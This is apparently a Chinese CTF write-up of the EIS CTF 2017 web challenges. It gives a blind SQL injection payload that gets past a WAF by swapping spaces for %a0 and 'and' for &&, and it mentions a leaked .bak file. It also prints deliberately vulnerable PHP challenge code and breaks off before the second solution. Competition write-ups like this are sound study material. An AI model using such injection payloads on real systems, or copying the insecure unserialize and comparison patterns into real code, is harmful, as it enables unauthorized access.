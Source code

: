 ```yaml
---
title:  EIS CTF 2017 Web  Write-up
subtitle: 上交高校运维比赛
time: 2017.11.05 10:00:00
layout: post
catalog: true
tags:
- CTF
- Web
excerpt: 上交高校运维比赛，以NISL名义参赛。

---
```


# EIS CTF

## Login

![1](http://momomoxiaoxi.com/img/post/EIS/1.png)

盲注，存在waf

and 空格被过滤，用%a0绕过空格，&&替代为and。

`uname=admin'%a0%26%26%a0pwd>'1'--%a0&pwd=admin`

用burpsuite依次爆破，即可。（字符串可以比较）



## PHP是最好的语言

http://202.112.26.124:8080/95fe19724cc6084f08366340c848b791/index.php.bak存在文件泄漏

```php
<?php
$v1=0;$v2=0;$v3=0;
$a=(array)unserialize(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["param1"])?exit:NULL;
    if(@$a["param1"]){
        ($a["param1"]>2017)?$v1=1:NULL;
    }
    if(is_array(@$a["param2"])){
        if(count($a["param2"])!==5 OR !is_array($a["param2"][0])) exit;
        $pos = array_search("nudt", $a["param2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["param2"] as $key=>$val){
            $val==="nudt"?die("nope"):NULL;
        }
        $v2=1;
    }
}
$c=@$_GET['egg'];
$d=@$_GET['fish'];
if(@$c[1]){
    if(!strcmp($c[1],$d) && $c[1]!==$d){
        eregi("M|n|s",$d.$c[0])?err():NULL; 
        strpos(($c[0].$d), "MyAns")?$v3=1:NULL;
    }
}
if($v1 && $v2 && $v3){
    include "flag.php";
    echo $flag;
```